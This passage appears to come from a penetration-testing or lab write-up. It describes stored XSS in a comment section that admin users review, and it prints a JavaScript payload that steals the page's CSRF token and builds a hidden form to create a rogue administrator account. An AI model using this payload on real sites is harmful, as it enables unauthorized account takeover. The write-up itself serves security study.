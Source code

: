 **Verification**: The field was confirmed vulnerable to XSS injection.

![Comment Section](images/Pasted%20image%2020251011232023.png)

**Attack Vector**: Comment section reviewed by admin users.

## XSS to CSRF Exploitation

### Malicious JavaScript Creation

Created `file.js` with admin account creation payload:

```javascript
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form"action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
```